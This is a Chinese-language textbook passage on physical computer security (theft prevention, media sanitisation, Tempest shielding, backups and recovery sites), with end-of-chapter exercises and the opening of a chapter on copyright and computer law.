因计算机及其介质对各种干扰敏感，破坏者可销毁硬件、软件和数据。人为攻击者可能是不满员工、无聊操作员、破坏分子、寻求刺激者或无意的笨拙者。若物理访问容易，使用斧头或砖头的粗暴攻击极为有效。近期一人枪击一台他声称多次维修无果的计算机。

非技术破坏者的物理攻击通常易于预防；保安可阻止携带威胁性或危险物品接近计算机设施的人员。当物理访问困难时，可能尝试更隐蔽的攻击，造成严重破坏。具备系统基础技术知识者可用汽车钥匙短路计算机，或用回形针禁用磁盘驱动器。这些物品在攻击完成前不太可能引起注意。

### 未授权访问和使用

影视和报纸报道夸大了获取计算系统访问权限的容易程度。尽管如此，随着分布式计算系统普及，防范外部访问变得更困难也更重要。拦截是一种未授权访问形式；攻击者拦截数据并破坏机密性，或阻止他人读取或使用数据。在此语境下，拦截属于被动攻击。但我们也必须关注主动拦截，即攻击者在允许数据继续传输至目的地前篡改或插入数据。

### 盗窃

窃取大型主机或服务器机架极具挑战。不仅搬运困难，寻找买家、安排安装维护也需特殊协助。然而，打印报告和可移动数据设备易于携带。若盗窃手法高明，损失可能长时间未被发现。

个人计算机、笔记本电脑、智能手机和个人数字助理（PDA，如平板电脑或 Blackberry）设计为小巧便携。闪存驱动器或内存条易置于口袋或公文包。易携带的计算机和介质也易隐藏。

防止盗窃可采取三种方法：防止访问、防止携带或检测离场。

#### 防止访问

防止盗窃最可靠的方法是让窃贼远离设备。然而，窃贼可能是内部人员或外部人员。因此，需要访问控制设备既防止未授权人员访问，又记录授权人员的访问。访问记录有助于识别盗窃者。

最古老的访问控制是警卫，这里的警卫不是指我们在第 6 章中讨论的防火墙意义上的警卫，而是指驻守在门口控制对房间或设备访问的人。警卫提供传统保护；他们的角色被充分理解，且在许多情况下他们提供的保护是足够的。然而，警卫必须持续值班才能有效；允许休息意味着 24 小时运营至少需要四名警卫，外加应对休假和生病的额外人员。警卫必须亲自认出某人或识别访问令牌（如工牌）。人们可能丢失或忘记工牌；离职员工和伪造工牌也是问题。除非警卫记录所有进入设施的人员，否则安保人员在问题被发现前无法知晓谁（员工或访客）曾拥有访问权限。

第二古老的访问控制是锁。该设备比警卫更容易、更便宜、更易于管理。然而，它同样不会产生谁拥有访问权限的记录，且钥匙丢失或复制时会出现困难。在计算机设施中，当你双手拿满设备（掉落可能损坏）时，不能翻找钥匙。场所也不能忽视“尾随”问题：即他人刚开门时跟随进入的人。尽管如此，警卫和锁为计算机室等设施的访问提供了简单、有效的安全保护。在许多情况下，简单即是更好。

更高级的访问控制设备采用带无线电发射器的卡片、磁条卡（类似银行卡）以及含有电子电路芯片的智能卡（难以复制）。因为这些设备都与计算机接口连接，计算机可以捕获身份信息，生成谁在何时通过哪条路线进出设施的名单。其中一些设备基于邻近感应操作，因此人员可将设备放在口袋或夹在衣领上；即使双手拿满东西也能轻松进入。因为这些设备由计算机控制，系统管理员可以在人员离职或报告访问令牌丢失/被盗时随时撤销访问权限。

应用程序或服务的性质决定了访问控制需要多严格。结合基于计算机的认证技术，访问控制可以成为纵深防御的一部分——使用多种机制提供安全。

#### 防止便携性

便携性是把双刃剑。我们现在口袋里的设备拥有相当于二十年前大型主机的计算能力。便携性实际上是平板电脑和手机等设备的必需品。我们也不想将个人电脑永久固定在桌上，以便在需要维修或更换时移走。因此，我们需要在不助长盗窃的前提下实现便携性。

一种防盗装置是连接电缆的垫板，类似于固定自行车用的装置。垫板用极强粘胶粘在桌面上。电缆环绕设备并锁定。解锁即可移动设备。另一种方案是将设备底座与安全垫板耦合，方式类似于酒店房间固定电视的方式。第三种可能性是一个大型可上锁的柜子，不用时将个人电脑及其外设存放其中。有人认为电缆、垫板和柜子不美观，且使设备使用不便。它们还与平板电脑和笔记本电脑等便携设备不兼容。

另一种选择是设备不使用时启用移动触发报警装置。可将小型报警器锁在笔记本电脑或包上。检测到移动时，会发出刺耳的尖啸或哨声，警告设备被移动。当笔记本电脑必须在会议室或演示室过夜或休息时留置，这种报警器特别有用。结合警卫使用，报警器能以合理成本提供合理保护。详见侧边栏 10-8 了解丢失和被盗笔记本电脑问题的严重程度。

***

#### 侧边栏 10-8 笔记本电脑在机场大量丢失

Ponemon Institute 对美国和欧洲机场的笔记本电脑丢失情况进行了调查[PON08]。在美国 36 个最大机场，他们发现每周平均有 286 台笔记本电脑丢失、错放或被盗。欧洲八大机场的数字更大：474 台。其中，美国 33% 在航班前后被找回，欧洲为 43%。

旅行者表示，在机场感到匆忙（70%）、携带物品过多（69%）、担心航班延误（60%）是导致电脑丢失的因素。在丢失电脑的人中，美国 53%、欧洲 49% 称丢失设备包含敏感数据，两个样本中均有 42% 表示数据未备份。更糟的是，美国 65%、欧洲 55% 未采取措施保护笔记本电脑上的敏感数据。

Ponemon 对计算机用户的建议包括：三思携带在电脑上的信息：商务旅行者应考虑是否真有必要随身携带如此多数据。

***

#### 检测盗窃

对某些设备，防护比检测更重要。我们要不惜一切代价防止某些系统或信息被盗。但对其他设备，检测到有人试图访问或窃取硬件/软件可能就足够了。例如，给磁盘加锁链会使其无法使用。相反，我们尝试检测有人何时试图带着磁盘或其他受保护物品离开受保护区域。在这些情况下，防护机制应当小巧且不显眼。

一种此类机制类似于许多图书馆、书店或百货商店使用的防护。每个敏感物品贴有特殊标签。虽然标签看起来像普通压敏标签，但如果未经授权方（如图书管理员或售货员）禁用，出口处的机器可检测到其存在。类似的安全码标签可用于车辆、人员、机械和文档。某些标签由无线电发射器启用。探测器报警时，必须抓捕试图带走标记物品的人员。

### 敏感信息的截获

处理包含未来五年销售策略的机密报告草稿副本时，公司需格外确保报告无法被竞争对手重构。当报告仅以硬拷贝存在时，销毁很简单，通常通过碎纸或焚烧完成。但当报告以数字形式存在时，销毁更成问题。报告可能以数字和纸质形式有多份副本，分布在多个位置（包括计算机和存储介质上）。备份和归档的电子邮件文件中也可能有副本。本节将探讨几种处置敏感信息的方法。

#### 碎纸销毁

##### 碎纸机

碎纸机已经存在很长时间了，它们是银行、政府机构和其他组织用来处理大量机密数据的设备。虽然大多数被粉碎的数据都在纸上，但碎纸机也可用于销毁打印机色带以及某些类型的磁盘和磁带。碎纸机的工作原理是将输入转化为细条或纸浆，产生足够的体积，使得大多数人无法尝试从其众多碎片中重建原始数据。当数据极其敏感时，一些组织会焚烧粉碎后的输出物以增加保护。

对于体积小、价格低廉的设备（如闪存驱动器），直接将物体掰成两半是另一种有效的销毁手段。其内部电路极其微小，重新连接所有断裂的连接几乎是不可能的。

#### 覆盖磁性数据

磁介质给试图保护其内容的人带来了特殊问题。当数据存储在磁盘上时，`ERASE`（擦除）或 `DELETE`（删除）功能通常只是更改目录指针以释放磁盘空间。结果，敏感数据仍记录在介质上，并且可以通过分析目录来恢复。在磁性设备上销毁数据的一种更安全的方法是多次覆盖数据，每次使用不同的模式。此过程去除足够的磁性残留，以防止大多数人重建原始文件。然而，以这种方式“清理”磁盘需要时间。此外，使用高度专业化设备的人可能能够识别每一条单独的信息，这很像撕开一层层壁纸以显露下面的墙面。

#### 退磁

退磁机破坏磁场。让磁盘或其他磁性介质通过退磁机会产生极强的磁通量，使所有磁荷瞬间重新排列，从而将所有单独的层融合在一起。退磁机是清洁磁性介质的一种快速方法，尽管专家质疑它是否足以用于最敏感的应用。（长期保持相同模式的介质，如用于归档目的的磁盘，即使经过多次覆盖或退磁，仍可能保留原始模式的痕迹。）对于大多数用户来说，退磁机是一种快速使磁盘或磁带失效的方法，允许其被他人重复使用。

#### 防止泄漏：Tempest

计算机屏幕发出的信号可以从远处被检测到。事实上，包括打印机、磁盘驱动器和处理器在内的任何组件都可能泄漏信息。Tempest 是一项美国政府计划，在此计划下，计算机设备被认证为无泄漏（即无可检测的辐射）。为设备准备 Tempest 认证有两种方法：屏蔽设备和修改辐射。

防止辐射的显而易见的解决方案是在信号被拾取之前将其截获。将设备置于导电外壳（如铜）中，通过在整个外壳中传导所有波来扩散它们。铜是良导体，波在铜中的传播比在外壳外的空气中好得多，因此辐射变得无害。

该解决方案对电缆效果非常好，电缆随后被包裹在实心的、防辐射屏蔽层中。通常，屏蔽电缆保持暴露状态，以便任何人都可以通过目视检查是否有窃听或其他篡改的迹象。屏蔽必须是完整的。也就是说，屏蔽一段电缆但不屏蔽该电缆连接到组件的接线盒，作用不大。连接到组件的线路和组件本身也必须屏蔽。

屏蔽层必须完全包围设备。如果顶部、底部和三面被屏蔽，则仅防止这些方向的辐射。然而，实心铜屏蔽在计算机屏幕前毫无用处。用复杂图案的细铜网覆盖屏幕可安全地将辐射导走。这种方法在保持屏幕可用性的同时解决了辐射问题。

整个计算机室甚至整栋建筑都可以用铜屏蔽，以使内部的大型计算机不泄漏敏感辐射。虽然屏蔽房间或建筑物而不是每个组件似乎很有吸引力，但该方案有显著的缺点。屏蔽室不方便，因为随着需求变化，无法轻松扩展房间。屏蔽必须小心进行，因为任何穿孔都是可能的辐射点。此外，连续的金属通道（如水管或暖气管道）充当天线，将辐射从其源头传送出去。

辐射也可以被设计成无法被检索的方式。此过程类似于产生噪声以试图干扰或阻断无线电信号。采用这种方法时，必须通过添加虚假信号来修改设备的辐射。向 Tempest 设备中专门添加额外的处理器，以生成欺骗拦截者的信号。确切的 Tempest 修改方法属于机密。

正如预期的那样，Tempest 屏蔽组件比其无防护的对应组件更大、更重。Tempest 测试是美国国防部的一项严格计划。一旦产品获批，即使是微小的设计修改（如将某制造商的电源更换为另一制造商的同等电源），也会使 Tempest 批准失效。因此，这些组件成本高昂，价格比类似的非 Tempest 产品高出 10% 到 300%。它们最适用于需保护的数据价值极高的情况，如最高级别的政府信息。需求不那么迫切的其他群体可以使用其他要求不那么严格的屏蔽。

### 应急计划

成功恢复的关键是充分的准备。危机很少会摧毁不可替代的设备；大多数计算系统——从个人计算机到大型主机——都是标准的、现成的系统，可以轻松替换。数据和本地开发的程序更脆弱，因为它们无法快速从其他来源替代。让我们更仔细地看看危机发生后该怎么做。

#### 备份

在许多计算系统中，某些数据项频繁变化，而其他数据项很少变化。例如，银行账户余额数据库每天都在变化，但存款人姓名和地址文件的变化频率要低得多。此外，在给定时间段内，这两个文件的变化数量也不同。这些变化数量和程度的差异与重建这些文件所需的数据量有关（以防丢失）。

***

**备份允许从计算设备的丢失或故障中恢复。**

***

备份是文件全部或部分的副本，旨在协助重建丢失的文件。在专业计算系统中，通常会自动执行定期备份，通常在系统使用率低的夜间进行。但正如侧边栏 10-9 所述，对于某些企业来说，备份的成本可能很高。系统上的所有内容都会被复制，包括系统文件、用户文件、临时文件和目录，以便在危机后重新生成系统。这种类型的备份称为完全备份。完全备份按固定间隔执行，通常是每周或每天一次，具体取决于系统提供的信息或服务的关键性。

***

##### 侧边栏 10-9 备份成本：一项商业决策

数据不再仅存储在大型主机上。您组织的关键信息可能驻留在您的笔记本电脑上、远程服务器上，甚至您的智能手机上。持有重要数据的设备数量之多表明，定期备份的成本可能极高。

###### 备份决策与策略

####### 备份的商业决策

决定是否、何时以及多久进行一次备份是一个重要的商业决策。用于备份的资源（包括支持人员）本可用于为客户提供产品和服务。那么，组织是否应该碰碰运气，只在问题发生时才处理？David Smith 的研究 [[SMI03]](#bib01.html#bib_572) 表明答案是否定的。

Smith 估计，2003 年美国企业使用了 8000 万台个人电脑和超过 6000 万台台式电脑。另一项由市场情报公司 IDC 进行的分析估计，2010 年有 40% 的中小企业没有备份数据，而在进行备份的 60% 企业中，40% 到 50% 的备份是不完整或不可恢复的。

Smith 指出，即使数据可以恢复，也涉及巨大的成本。利用计算机支持专家的平均薪资和恢复时间的估算，他建议每起事件中，企业为每位内部专家支付 170 美元的损失成本，而聘请外部顾问执行恢复的成本是其两倍。每位受影响员工的生产力损失估计超过 200 美元，丢失数据的预期价值为 3400 美元。Smith 认为数据丢失每年给美国企业造成超过 180 亿美元的损失。尽管这些数字有些过时，但我们可以根据 *Computerworld*（2012 年 3 月 20 日）报道的数据丢失成本从 2007 年到 2011 年增长了 68% 这一数据进行推算。

还有另一种思考数据丢失成本的方式。假设一个组织丢失了 10 万客户的数据，组织人员联系每位客户并获取替代数据的成本为每位客户 20 美元（一个非常保守的估计）。这将花费 200 万美元，本可用于更重要的业务职能。因此，备份这 10 万条记录的成本应低于替换它们的 200 万美元成本。事实上，这种分析在其他方面低估了成本：当客户得知数据丢失时，他们可能会转向竞争对手，或者公司的股价可能会下跌。

因此，每个组织必须权衡其潜在损失成本与定期备份的成本。还有其他替代方案，如保险。但当数据对组织的生存至关重要时，保险可能不是一个现实的选项。

---

####### 备份类型

大型装置可能执行**循环备份**，即保留最近的几次备份。每次进行备份时，最旧的备份会被最新的备份替换。执行循环备份有两个原因：避免介质损坏带来的问题（这样如果其中一个磁盘损坏，并非所有数据都会丢失），以及允许用户或开发人员检索文件的旧版本。

另一种备份形式是**选择性备份**，即仅保存自上次备份以来已更改（或创建）的文件。在这种情况下，需要保存的文件较少，因此备份可以更快地完成。选择性备份结合早期的完整备份，可在仅需选择性备份的时间内实现完整备份的效果。

对于每种类型的备份，我们都需要一种从备份点向前移动到故障点的方法。也就是说，我们需要一种在发生故障时恢复系统的方法。在关键事务系统中，我们通过保存自上次备份以来的完整变更记录来满足这一需求。有时，系统状态是通过计算机和纸质记录介质的组合来捕获的。例如，如果系统处理银行柜员操作，各个柜员会在纸质记录上复制他们的处理过程——即伴随您银行交易的存款单和取款单；如果系统故障，工作人员恢复最新的备份版本，并从收集的纸质副本中重新应用所有更改。或者银行系统创建一份纸质日志，即在每笔交易完成时打印的交易日志。

个人电脑用户往往不了解定期备份的必要性。即使是微小的危机，如硬件故障，也会严重影响个人电脑用户。Sidebar 10-9 引用了一项关于不备份数据的中小企业数量的估计，但专家认为私人个体的统计数据会更糟。有关未执行任何备份的个人电脑用户的一个示例，请参阅 Sidebar 10-10。有了备份，用户只需切换到一台类似的机器即可继续工作。

---

###### 个人常无法备份自己的数据

---

###### 异地备份

如果备份副本在危机中也被销毁，则毫无用处。许多大型计算装置会租用距离计算系统一定距离的仓库空间，距离足够远，使得危机不太可能同时影响异地位置。备份完成后，会被运输到备份站点。将备份版本与实际系统分开存放，可降低其丢失的风险。同样，纸质记录也存储在主计算设施以外的地方。

---

##### 侧边栏 10-10 一台电脑 = 一生的电影

*Washington Post* 专栏作家 Marc Fisher 于 2010 年 12 月初撰文称，他的房子被盗，他儿子的 iPod、笔记本电脑和现金，以及一件新夹克和其他物品被盗。小偷拍了一张自己穿着夹克、炫耀刚偷来的一把现金的照片，然后厚颜无耻地将照片发布到 Fisher 儿子的 Facebook 页面上。这只是一起普通犯罪，只是罪犯比大多数人更嚣张。正如 Fisher 所写，无人受伤，大多数物品可替代。

唯一无法替代的物品是数据。在笔记本电脑上，儿子记录了他一生中看过的每一部电影——“成百上千部”，并附有对每部电影的评论。但他从未备份过那个文件，更不用说笔记本电脑上的其他任何东西了。“它没了——提醒我们计算机……创造的新现实，一个本应持续一生的文档可能在瞬间消失的世界……”

将那个文件复制到内存棒上需要多长时间？

---

---


**如果备份的目的是防范灾难，备份本身不得在灾难中被销毁。**

---

关注完整性的个人电脑用户可以将重要磁盘的副本带回家作为保护，或发送副本给另一个城市的朋友。如果保密性和完整性都很重要，可以使用银行金库，甚至同一栋楼内的另一个安全存储场所。存放备份副本最糟糕的地方是它通常存放的地方：紧挨着机器。

### 网络存储

随着网络的广泛使用，利用网络实施备份是个好主意。存储提供商出租存储数据的空间；可将这些服务视为大型网络附加磁盘驱动器。您按使用量付费，就像消费电力一样：用多少付多少。存储提供商只需提供足够的总空间来满足所有人的需求，并且很容易监控使用模式并在综合需求上升时增加容量。

网络存储非常适合关键数据的备份，因为您可以选择物理存储不靠近您处理中心的存储提供商。这样，对您系统的物理损害不会影响您的备份。您无需管理磁带或其他介质，并亲自将它们运送到异地。

### 云备份

互联网催生了另一种备份方法。正如我们在 `Chapter 8` 中所述，包括微软、谷歌和亚马逊在内的互联网巨头公司，实际上通过互联网为用户的工作站增强了一组看似无限的硬件。用户与云提供商签订合同，并有效地将互联网用作辅助设备。

#### 云计算与物理安全

典型的服务是 `Google Docs`，用户可以在本地或“云端”创建文档，即通过用户 Web 浏览器上的基于 Internet 的应用程序。用户在本地编辑文档并将文档的副本推回 Internet，或者用户完全在云端编辑，使用云服务器（例如 Google）提供的编辑工具。这种方法有三个与可用性相关的显著优势。

首先，也是本次讨论中最重要的，Google 负责维护内容。即使 Google 的某个硬件存储设备发生故障，Google 也会在不同位置的不同设备上维护文档的复制副本，因此用户会被定向到一个副本，甚至不知道发生了硬件故障。因此，文档会自动备份。其次，因为数据是通过 Internet 访问的，用户只需要一个 Internet 连接即可访问文档；在出差、在家或度假时，用户访问文档就像在办公室一样。最后，云允许由受控人员列表共享文档。

云计算也存在风险；例如，如果云提供商倒闭或用户违约，用户数据的访问可能会受到威胁。而且用户放弃了对数据的大量控制权，这对高度敏感的数据有影响。尽管如此，云计算可以提供自动冗余，克服在关键时刻未能执行备份的问题。

#### 冷站点

根据计算的性质，能够快速从危机中恢复并恢复计算可能很重要。例如，银行可能能够容忍火灾期间四小时的计算设施损失，但无法容忍重建被毁设施、采购新设备并恢复运营长达十个月的时期。

大多数计算机制造商都有大多数型号的几台备用机器，在发生真正的危机时可在 24 小时内交付到任何地点。有时机器直接来自装配线；有时系统曾在当地办公室使用过。机器很少是问题的难点。难点在于决定将设备放在哪里以开始临时操作。

**冷站点** 或 **外壳** 是一个具备电源和制冷条件的设施，可在其中安装计算系统以立即开始操作。一些公司维护自己的冷站点，其他冷站点可从灾难恢复公司租赁。这些站点通常配备布线、消防设备、独立办公空间、电话接入和其他功能。通常，计算中心可在灾难发生一周内安装设备并从冷站点恢复运营。

#### 热站点

如果应用至关重要或设备需求高度专业化，**热站点** 可能比冷站点更合适。热站点是一个安装了即插即用计算系统的计算机设施。该系统拥有外设、电信线路、电源，甚至有随时待命的人员。一些公司维护自己的替代设施；其他公司订阅拥有一个或多个安装并运行着计算机的地点的服务。要激活热站点，团队只需从异地备份副本加载软件和数据。

许多服务提供配备各种热门品牌和型号系统的热站点。他们提供诊断和系统技术人员、连接的通信线路和运营人员。热站点员工还协助搬迁，安排交通和住宿，获取所需的空白表格，并获取办公空间。

因为这些热站点作为许多客户的备份，其中大多数不需要该服务，所以对任何单个客户的年成本相当低。成本结构类似保险：车祸的可能性很低，因此保费合理，即使是承保昂贵汽车全部更换成本的保单。但请注意，使用此类服务的第一步是完整且及时的备份。

#### 物理安全回顾

绝非我们在这简短的介绍中涵盖了物理安全的所有方面。专业人士会成为各个方面的专家，如消防控制或电力供应。然而，本节应该让你了解物理安全的主要问题。我们必须保护设施免受各种灾害的侵害，从天气到化学品泄漏、车辆撞击到爆炸。没有人能预测会发生什么或何时发生。物理安全经理必须考虑所有资产和广泛的危害范围。

寻求物理访问的恶意人员是另一类威胁主体。对于他们，你可以考虑动机或目的：是窃取设备、中断处理、拦截数据还是访问服务？围栏、警卫、实心墙和锁将阻止或防止大多数人为攻击。但你始终需要询问弱点在哪里；实心墙的每一扇门和窗户都是弱点。

主要的物理控制是强度和复制。强度意味着实施纵深防御方法的重叠控制，这样如果一个控制失效，下一个控制将提供保护。建造古代城堡的人们通过护城河、墙壁、吊桥和箭孔实践了这一理念。复制意味着消除单点故障。数据的冗余副本可防止任何原因对一个副本造成的损害。备用硬件组件可防止故障。

### 10.6 结论

在本章中，我们探讨了计算的管理方面：如何规划和准备应对紧急情况。最重要的一步是提前考虑情况。提前确定谁负责让每个人都有掌控感。

风险分析是一个听起来比实际更全面、更详细的过程。大型组织不可能识别所有资产、威胁和被利用的可能性。精确性不是重点。识别这些列表上的高优先级项目有助于设定优先级，并为决策和支出提供理由。

事件响应始于一个重要的第一步：有人注意到并报告某事。组织需要一个单一的报告点，以防止响应活动变得混乱。应鼓励人们报告任何异常情况，因为起初很难确定情况的性质和严重程度。

自然灾害和物理灾害与加密和参考监视器一样，都是计算机安全的一部分。因为火灾、洪水和停电发生在日常生活中，人们有时会忽视它们的影响。

在本章中，我们仅描述了安全管理的表面。本书的许多读者将是学生或技术专业人员。这些读者可能会想知道为什么我们要涉足这些非技术主题。首先，并非每个计算机安全问题都有技术答案：如果磁盘故障且没有备份，防火墙和沙箱毫无作用。其次，我们认为我们的读者应该简要了解计算机安全管理方面的内容。一些读者将为负责不仅 VPN 还有 CSIRT 的经理工作，或可能成为此类经理。了解经理关注的范围有助于你为你的特定领域或问题获得最公平的支持。最后，我们希望让读者了解计算机安全中各种可能性的广度。并非每个人都会成为网络工程师或安全软件开发人员。有些人将成为事件响应协调员、容量规划师、风险官和取证分析师。每个人都应该了解该领域的其他专业方向。

在下一章中，我们将讨论法律与伦理。正如我们在 `Chapter 1` 中所述，计算机安全漏洞可以通过多种方式控制：一些是技术性的，一些是管理性的，一些是物理性的，还有一些是政治性的。法律代表了社区的共同意志，即某些行为是不可接受的。但法律制度并非制止不当行为的唯一途径：一些人基于伦理理由选择不做某事。因此，我们将探讨并比较法律和伦理作为计算机安全控制手段的异同。

### 10.7 练习

**1.** 拒绝服务（授权用户缺乏可用性）以何种方式构成了单用户个人计算机用户的漏洞？

**2.** 确定拥有不足十名员工的办公室中计算系统面临的三个最可能的威胁。即确定最可能被利用的三个漏洞。估算每个漏洞每年被利用的次数。证明你的估算合理性。

**3.** 对大型研究实验室中的计算系统执行练习 2 的分析。

**4.** 对大型大学图书馆中的计算系统执行练习 2 的分析。

**5.** 你自己的个人计算机价值几何？你是如何得出这个数字的？它是否涵盖了恢复或重建其中所有数据的成本？

**6.** 列出制定安全计划时应考虑的三个因素。

**7.** 调查你所在大学或雇主的安全计划，确定其安全需求是否满足本章列出的所有条件。列出不满足的条目。该计划何时编写？何时最后审查和更新？

**8.** 陈述一个不切实际的安全需求。陈述一个不可验证的安全需求。陈述两个相互矛盾的安全需求。

**9.** 列举三种可能同时产生积极和消极影响的控制措施。

**10.** 对于一家航空公司，其最重要的资产是什么？为了在有限时期（最多两天）内维持业务运转，它需要的最低计算资源是什么？在灾难期间，它还能使用哪些其他系统或流程？

**11.** 针对银行而非航空公司回答练习 10。

**12.** 针对石油钻探公司而非航空公司回答练习 10。

**13.** 针对政治竞选活动而非航空公司回答练习 10。

**14.** 何时算作事件结束？即哪些因素影响是否继续事件处理团队的工作或解散它？

**15.** 列举可能发生在你个人计算机上的五种危害。估算每种危害的可能性，以每年发生次数表示（次数可以是分数，例如 `1/2` 表示预计每两年发生一次）。估算该危害造成的金钱损失。计算这些危害预期的年损失。

**16.** 列举一个在计算领域中无法或难以用经典概率计算发生概率的风险。

**17.** 调查你所在大学或雇主的计算机安全策略。谁编写了该策略？谁执行该策略？它涵盖哪些人员？它涵盖哪些资源？

**18.** 如果你在大学或工作单位发现异常情况，应向谁报告？你可以随时（日夜）报告吗？

**19.** 列出计算系统的三个不同水源，并说明针对每个水源的控制措施。

**20.** 你发现计算系统已被一段恶意代码感染。你不知道感染发生的时间。你确实有自系统投入运行以来每周执行的备份，但当然，系统随着时间的推移经历了许多变更。你如何利用备份构建系统的“干净”版本？

## 11. 法律问题与伦理

***

在本章中：

• 保护程序和数据：版权、专利、商业秘密

• 计算机犯罪法规与法律程序

• 数字对象的独特特性

• 软件质量：《统一商法典》

• 伦理：原则与探讨情境

***

在本章中，我们将研究适用于计算机安全的人为控制：法律制度与伦理。法律制度通过复用一些旧的法律保护形式（版权和专利），并在原有法律不足的地方制定新法（恶意访问），已相当好地适应了计算机技术。尽管如此，法院并非计算机资源的完美保护形式，主要有两个原因。首先，法院倾向于被动反应而非主动预防。也就是说，我们必须等待违规行为发生后再进行裁决，而非试图在第一时间预防。其次，通过法院解决问题可能耗时（有时长达数年）且昂贵；后一特性使得除富人外，大多数人无法通过法律途径解决大多数安全问题。

另一方面，伦理无需改变，因为伦理比法律更具情境性和个人性。例如，个人信息隐私正成为计算机安全的重要组成部分。虽然从技术上讲这只是机密性的一个方面，但从实践来看，它在法律和伦理领域都有悠久历史。本章通过考量安全评估与应用的背景，完善了我们对计算系统保护的研究。

冲突并不总能愉快地解决。一些人会认为自己受到了不公正对待，而一些人确实做出了不公正的行为。在一些国家，公民通过诉诸法院来应对不法行为。法院被视为公平的最终仲裁者和执行者。但正如大多数律师会告诉你的，法院对“公平”的定义可能与你的不一致。即使你确信法院会支持你，法律诉讼也会让人身心俱疲。本节的目的不仅是理解法律制度如何帮助保护计算机安全，还在于知晓如何明智地利用法律制度。

法律与计算机安全在多方面相关。首先，国际、国家、州和城市的法律会影响隐私和保密性。这些法规通常适用于个人保持私人事务秘密的权利。其次，法律规范数据和程序的使用、开发与所有权。专利、版权和商业秘密是保护程序和数据开发者及所有者权利的法律手段。同样，计算机安全的一个方面是控制对程序和数据的访问；该访问控制由这些法律机制提供支持。第三，法律影响为保护计算机信息和服务的机密性、完整性和可用性所能采取的行动。这些计算机安全的基本关注点既受到适用法律的加强，也受到其制约。因此，法律手段与其他控制相互作用，共同建立计算机安全。

然而，法律并不总能提供充分的控制。涉及计算机系统时，法律演进缓慢，因为相关问题类似于但又不完全等同于财产权问题。与房屋、土地、马匹或货币相比，计算机是新生事物。因此，计算机系统在法律中的地位尚未稳固确立。随着法规的制定和案例的判决，计算机及涉及的人员、数据和流程在法律中的角色正变得更加明确。然而，法律尚未涵盖所有利用计算机实施的不当行为。最后，一些法官、律师和警察不懂计算，因此无法判断计算与法律其他更成熟部分的关联。

### 计算机安全法律概述

计算机安全相关法律影响程序员、设计师、用户以及计算系统和计算机化数据库的维护者。这些法律在提供保护的同时，也规范了使用计算机的人员的行为。此外，计算机专业人员是修改旧法律、制定新计算机相关法律的最合格倡导者之一。然而，在提出修改建议之前，专业人员必须了解计算机与法律的现状。因此，我们学习本章法律部分有三大动机：

- 了解法律为计算机和数据提供了何种保护
- 理解保护他人在计算机、程序和数据方面权利的法律
- 以现有法律为基础，理解如何推荐新法律以保护计算机、数据和人员

接下来几节将探讨计算机安全保护的以下几个方面：

- **保护计算系统免受犯罪侵害**。计算机犯罪分子违背了计算机系统的机密性、完整性和可用性原则。预防违规优于事后起诉。然而，若其他控制手段失效，可能需要采取法律行动。本节将研究几部具有代表性的法律，以确定哪些行为在法律下属于可惩罚范围。

- **保护代码和数据**。版权、专利和商业秘密均可作为应用于程序（有时也包括数据）的法律保护形式。然而，我们必须理解这三种保护类型在保护范围和获取方式上的根本差异。

- **保护程序员和雇主的权利**。法律同时保护程序员和雇佣程序员的人员。通常，程序员仅拥有在受雇期间编写的程序的有限合法访问权。本节将概述雇员和雇主关于有偿编写程序的权利。

- **保护程序用户**。购买程序时，用户期望其正常运行。若程序存在缺陷，用户希望法律体系保护其消费者权益。本节将调查用户针对故障程序可采取的法律救济途径。

计算机法律错综复杂，且随着计算技术的飞速发展而迅速演变。本书呈现基础知识，并非像法学学位持有者那样详尽无遗，而是作为一种情境分析，旨在增强非律师但必须面对法律影响的人员的意识。将本节内容应用于具体案例时，应咨询了解并专攻计算机法律的律师。而且，正如大多数律师所建议的，从一开始就通过正确做事来确保法律保护，远比在出错后聘请律师理清纠纷网要容易——且廉价——得多。

### 11.1 保护程序和数据

假设 `Martha` 编写了一个电子游戏程序。她邀请朋友来玩，并分发副本让他们带回家游玩。`Steve` 拿走一份副本，重写了部分代码以提升屏幕显示质量。`Steve` 将修改分享给 `Martha` 后，`Martha` 将其合并到自己的程序中。如今朋友们说服 `Martha` 该程序质量足以出售，于是她计划通过邮购广告销售游戏。她想知道能申请何种法律保护来保护软件。

版权、专利和商业秘密是保护计算机、程序和数据的法律手段。但在某些情况下，必须在允许他人接触作品前采取精确步骤来保护作品。本节将解释这些保护形式最初的设计用途及其在计算领域的当前应用。我们主要聚焦美国法律，以提供意图与后果的示例。其他国家的读者或在其他国家开展业务的读者，应咨询当地律师以确定具体异同。

#### 版权

在美国，版权保护的基础载于《美国宪法》。支撑宪法条款的立法主体包含详述或扩展宪法保护的法律。相关法规包括 1978 年《美国版权法》，该法于 1998 年更新为《数字千年版权法》（`DMCA`），专门针对计算机及数字视频、音乐等电子媒体。1998 年的修订使美国版权法总体符合 1996 年《世界知识产权组织条约》（95 个国家遵守的国际版权标准）。

**版权**旨在保护**思想的表达**。因此，版权适用于故事、照片、歌曲、铅笔素描等创意作品。复制**思想表达**的权利受版权保护。法律主张，思想本身是自由的；理论上，任何聪明头脑都能想出他人能想出的任何东西。版权的初衷是允许思想的定期自由交流。

> **版权保护创意作品的表达，并促进思想交流。**

书籍作者将思想转化为纸上的文字。纸张承载了这些思想的表达，也是作者的生计来源。作者希望通过以吸引人的方式呈现思想来谋生（同样的保护适用于音乐、戏剧、电影和艺术作品，每件都是思想的个人表达）。法律保护个人谋生的权利，同时承认思想交流支撑社会的智力成长。版权规定，思想的特定**表达方式**归作者所有。例如，在音乐领域，单一创作可能涉及两三项版权：作曲家可为歌曲申请版权，编曲者可为该歌曲的编曲申请版权，表演者可为该编曲的特定演绎申请版权。音乐会门票价格包含对这三种创意表达的补偿。

版权赋予作者**专有权**复制表达并向公众销售。即只有作者（或作为作者代理的书商等）可销售作者书籍的新副本（转售将在本章后文讨论）。

##### 知识产权的定义

美国版权法（`§102`）规定，可为“以任何有形表达媒介固定的原创作者作品……可直接或借助机器或设备感知、复制或以其他方式传达”注册版权。再次强调，版权**不**涵盖被表达的**思想**。“在任何情况下，原创作者作品的版权保护均不延伸至任何思想。”版权必须适用于**原创**作品，且须采用某种**有形**表达媒介。

> **版权保护制品——思想的表达——而非思想本身。**

